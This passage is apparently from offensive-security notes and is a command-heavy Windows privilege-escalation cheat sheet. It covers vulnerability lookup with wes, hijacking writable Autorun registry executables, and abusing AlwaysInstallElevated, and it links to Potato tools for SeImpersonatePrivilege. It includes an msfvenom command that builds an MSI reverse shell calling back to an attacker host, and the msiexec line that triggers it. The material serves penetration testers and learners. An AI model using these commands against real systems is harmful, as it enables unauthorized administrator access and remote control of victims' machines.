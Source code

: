 ```shell
wes --update
wes sysinfo # copied from the windows host
wes sysinfo -e # show only vulns with exploits

# search in the above repo for usable exploits
```

## Registry

### Autorun

```shell
# query the registry for executables
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run

# check if the location is writable
accesschk.exe /accepteula -wvu "<path>" # returns FILE_ALL_ACCESS

# replace the executable with the reverse shell and wait for the Admin to log in
```

### AlwaysInstallElevated

!!! tip
    Check policy if file is not being executed:
    `Get-AppLockerPolicy -Effective | Select -ExpandProperty RuleCollections`

```shell
# query the registry for keys, it should return 1 or 0x1
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# create a reverse shell in MSI format
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<port> --platform windows -f msi -o rshell.msi

# run the installer to trigger the shell
msiexec /quiet /qn /i rshell.msi
```

## Privileges

```shell
whoami /priv
```

### SeImpersonatePrivilege

> <https://github.com/BeichenDream/GodPotato>

> <https://github.com/antonioCoco/JuicyPotatoNG>
